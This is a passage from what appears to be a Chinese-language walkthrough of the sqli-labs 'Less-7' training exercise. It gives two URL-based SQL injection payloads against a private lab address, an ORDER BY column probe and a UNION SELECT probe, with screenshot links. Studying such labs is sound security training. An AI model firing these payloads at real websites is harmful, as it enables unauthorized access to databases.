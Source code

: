 - 这里可以发现``id``应该只有``14``个

- http://192.168.77.131/master/Less-7/?id=1'))order by 3 --+

![image-20240819203443978](./assets/image-20240819203443978.png)

- http://192.168.77.131/master/Less-7/?id=1')) UNION SELECT 1,2,3--+

![image-20240819203543344](./assets/image-20240819203543344.png)